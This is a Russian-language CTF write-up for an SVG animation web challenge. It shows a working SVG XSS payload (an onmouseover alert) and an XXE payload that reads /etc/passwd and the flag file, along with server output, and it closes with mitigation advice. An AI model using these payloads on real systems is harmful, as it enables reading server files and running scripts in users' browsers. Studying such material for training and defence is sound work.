




# Студия анимаций 🌐

## Описание задачи

Задача: **Студия анимаций**

Сложность: 

Описание с платформы:

> Как тебе мой сайт для анимации свг'шек?

Адрес задания:

```text
tasks.duckerz.ru:30016
```

Автор задачи:

```text
Marcus
```

Скрин с названием и описанием:



---

## Первый взгляд 👀

На старте есть только карточка задачи с описанием и адресом сервиса.

По описанию задача связана с сайтом для анимации SVG-файлов:

```text
сайт для анимации свг'шек
```

Пока это не решение, а только направление для первичной проверки. В таких задачах стоит внимательно смотреть:

- можно ли загрузить или вставить свой SVG;
- как сайт обрабатывает содержимое SVG;
- отображается ли SVG обратно в браузере;
- есть ли фильтрация тегов, атрибутов и JavaScript;
- какие запросы уходят при создании или просмотре анимации;
- где хранится созданная анимация и есть ли у нее ID или ссылка.

---

## Что проверять дальше

Первым делом нужно открыть сервис и зафиксировать:

- какие страницы доступны без авторизации;
- есть ли форма загрузки или редактор SVG;
- какие параметры отправляются на сервер;
- какие ответы возвращает backend;
- появляются ли ссылки на созданные SVG или анимации;
- можно ли увидеть исходный SVG после обработки.

Так как в описании явно упоминаются SVG, отдельное внимание нужно уделить тому, как приложение работает с XML/SVG-разметкой. На этом этапе это только рабочая гипотеза, а реальную уязвимость фиксируем после проверки в интерфейсе и Burp.

---

## Проверка SVG на выполнение JavaScript 🧪

Дальше была проверена загрузка SVG-файла со встроенным JavaScript-обработчиком события.

Файл:

```text
alert1.svg
```

Содержимое SVG:

```xml
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100">
  <rect x="0" y="0" width="100" height="100" fill="green" onmouseover="alert(1)"/>
</svg>
```

После загрузки SVG на сайт и наведения мышкой на изображение сработал JavaScript:

```javascript
alert(1)
```

Скрин с подтверждением:



Это подтверждает, что сайт не просто показывает SVG как безопасную картинку, а позволяет браузеру выполнить JavaScript из SVG-разметки.

---

## Что происходит в payload

Разберем SVG по частям.

```xml
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100">
```

Это корневой тег SVG.

`xmlns="http://www.w3.org/2000/svg"` указывает браузеру, что перед ним именно SVG-разметка.

`viewBox="0 0 100 100"` задает внутреннюю систему координат изображения:

```text
x = 0
y = 0
width = 100
height = 100
```

То есть все элементы внутри SVG удобно рисовать в области 100 на 100 условных единиц.

```xml
<rect x="0" y="0" width="100" height="100" fill="green" onmouseover="alert(1)"/>
```

Это прямоугольник.

Параметры:

- `x="0"` и `y="0"` — прямоугольник начинается с левого верхнего угла;
- `width="100"` и `height="100"` — прямоугольник занимает всю область SVG;
- `fill="green"` — прямоугольник закрашен зеленым цветом;
- `onmouseover="alert(1)"` — обработчик события, который запускается при наведении мышки.

Самая важная часть:

```html
onmouseover="alert(1)"
```

`onmouseover` — это HTML/SVG-атрибут события. Когда пользователь наводит курсор на прямоугольник, браузер выполняет код из этого атрибута.

В нашем случае выполняется:

```javascript
alert(1)
```

`alert(1)` открывает стандартное всплывающее окно браузера с текстом `1`. Для CTF это удобный безопасный способ доказать, что JavaScript действительно исполняется.

Закрывающий тег:

```xml
</svg>
```

завершает SVG-документ.

---

## Найденная уязвимость

На этом этапе подтвержден XSS через загружаемый SVG-файл.

XSS расшифровывается как **Cross-Site Scripting**. Суть уязвимости в том, что приложение позволяет внедрить JavaScript-код, который затем выполняется в браузере пользователя.

В этой задаче JavaScript попал на страницу через SVG:

```text
загрузка SVG -> отображение SVG на сайте -> наведение на SVG -> выполнение onmouseover -> alert(1)
```

Пока это подтверждение уязвимости, а не финальное решение задачи. Дальше нужно понять, как этот XSS использовать для получения флага.

---

## Проверка чтения файлов через Repeater 🧪

Дальше запрос на анимацию SVG был отправлен в Burp Repeater и изменен вручную.

Endpoint:

```http
POST /animate HTTP/1.1
```

Тип запроса:

```text
multipart/form-data
```

В запросе передается файл:

```text
name="file"; filename="1.svg"
Content-Type: image/svg+xml
```

Также отдельно передаются параметры анимации:

```text
animation=pulse
bg_color=#130807
```

Самая важная часть была внутри SVG-файла:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100">
  <text x="10" y="20" fill="white">&xxe;</text>
</svg>
```

Скрин запроса и ответа:



В ответе сервер вернул SVG, внутри которого появилось содержимое файла:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

Это означает, что сервер обработал внешнюю XML-сущность и прочитал локальный файл:

```text
/etc/passwd
```

Флаг на этом этапе еще не найден. Пока понятно только то, что через обработку SVG можно читать локальные файлы на сервере.

---

## Что происходит в XXE-payload

Разберем код из SVG.

```xml
<?xml version="1.0" standalone="yes"?>
```

Это XML-декларация. Она говорит парсеру, что документ написан в формате XML версии `1.0`.

`standalone="yes"` означает, что документ заявлен как самостоятельный. В этой задаче ключевая часть не здесь, а дальше, в `DOCTYPE`.

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

Это объявление `DOCTYPE`. Внутри него создается XML-сущность:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

Разбор:

- `ENTITY` объявляет сущность, то есть специальную XML-подстановку;
- `xxe` — имя сущности;
- `SYSTEM` говорит, что значение сущности нужно взять из внешнего источника;
- `file:///etc/passwd` — путь к локальному файлу на сервере.

То есть эта строка говорит XML-парсеру:

```text
когда встретишь &xxe;, подставь содержимое файла /etc/passwd
```

Дальше идет обычный SVG:

```xml
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100">
```

Он задает SVG-документ и область координат.

Внутри SVG находится текстовый элемент:

```xml
<text x="10" y="20" fill="white">&xxe;</text>
```

`text` рисует текст внутри SVG.

Параметры:

- `x="10"` — позиция текста по горизонтали;
- `y="20"` — позиция текста по вертикали;
- `fill="white"` — белый цвет текста;
- `&xxe;` — обращение к XML-сущности, объявленной выше.

Именно `&xxe;` запускает подстановку. Если XML-парсер разрешает внешние сущности, он читает файл `/etc/passwd` и вставляет его содержимое вместо `&xxe;`.

В ответе видно, что сервер еще добавил анимацию:

```xml
<animate attributeName="opacity" values="1;0.7;1" dur="2s" repeatCount="indefinite"/>
```

Это уже логика самого сайта. Параметр `animation=pulse` превратился в SVG-анимацию прозрачности:

- `attributeName="opacity"` — анимируется прозрачность;
- `values="1;0.7;1"` — значение меняется с полной видимости до `0.7` и обратно;
- `dur="2s"` — цикл длится 2 секунды;
- `repeatCount="indefinite"` — анимация повторяется бесконечно.

---

## Что такое XXE

XXE расшифровывается как **XML External Entity**.

Суть уязвимости: приложение парсит XML-документ и разрешает внешние сущности. Если пользователь может загрузить свой XML/SVG, он может заставить сервер прочитать локальный файл или обратиться к внутреннему ресурсу.

В этой задаче цепочка такая:

```text
загрузка SVG -> XML-парсер обрабатывает DOCTYPE -> сущность xxe читает file:///etc/passwd -> содержимое файла попадает в ответный SVG
```

Это уже не просто выполнение JavaScript в браузере, а серверная проблема обработки XML/SVG. Дальше нужно искать, где лежит флаг, и пробовать читать другие локальные файлы.

---

## Чтение файла с флагом 🏁

После подтверждения XXE следующим шагом была замена пути в сущности:

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///app/flag.txt">]>
```

Итоговый SVG выглядел так:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///app/flag.txt">]>
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 100 100">
  <text x="10" y="20" fill="white">&xxe;</text>
</svg>
```

Скрин запроса и ответа:



В ответе сервер подставил содержимое:

```text
DUCKERZ{...}
```

Флаг на скрине замазан и в writeup явно не публикуется.

---

## Почему это сработало

Уязвимость стала возможна из-за сочетания нескольких факторов:

- приложение принимает пользовательский SVG как XML-документ;
- серверный XML-парсер обрабатывает `DOCTYPE`;
- парсер разрешает внешние сущности `SYSTEM`;
- содержимое сущности потом попадает в итоговый SVG-ответ.

То есть сервер фактически сделал за нас такую цепочку:

```text
получить SVG -> распарсить XML -> увидеть ENTITY xxe -> открыть file:///app/flag.txt -> вставить содержимое в <text> -> вернуть готовый SVG
```

Ключевая проблема не в самом SVG, а в небезопасной конфигурации XML-парсера. Если парсеру разрешено читать внешние сущности, пользователь может заставить его обращаться к локальным файлам сервера.

---

## Как этого не допустить

Главная защита от XXE:

- отключать обработку внешних сущностей;
- запрещать `DOCTYPE`, если он не нужен;
- использовать безопасный режим XML-парсера;
- не парсить пользовательский SVG как доверенный XML без строгой очистки;
- при возможности конвертировать SVG через безопасный sanitizer или рендерить его как данные, а не как исполняемую XML-разметку.

На практике идея такая:

```text
пользовательский XML не должен иметь права читать file://, http:// и другие внешние ресурсы
```

Для XSS-защиты отдельно важно:

- вырезать обработчики событий вроде `onmouseover`;
- запрещать `<script>` и опасные SVG-теги/атрибуты;
- применять whitelist-очистку SVG перед показом в браузере.

Иначе один и тот же SVG может привести сразу к двум классам проблем:

```text
в браузере -> XSS
на сервере при XML-разборе -> XXE
```

---

## Итог

Цепочка решения:

```text
загрузка SVG
-> подтверждение XSS через onmouseover="alert(1)"
-> отправка SVG в Burp Repeater
-> XXE через <!ENTITY xxe SYSTEM "file:///etc/passwd">
-> подтверждение чтения локальных файлов
-> замена пути на file:///app/flag.txt
-> получение флага
```

Основная уязвимость задачи: небезопасный серверный разбор SVG как XML с разрешенными внешними сущностями.

---

## Текущий статус

Задача решена.

Зафиксировано:

- название задачи;
- сложность;
- описание с платформы;
- адрес сервиса;
- автор задачи;
- стартовые направления для проверки;
- загрузка SVG с JavaScript-обработчиком;
- успешное выполнение `alert(1)` через `onmouseover`;
- подтверждение XSS через SVG;
- отправка измененного SVG через Burp Repeater;
- подтверждение XXE через чтение `/etc/passwd`;
- чтение `/app/flag.txt` через XXE;
- получение флага.

---

Автор: **masquadd :)** ✍️
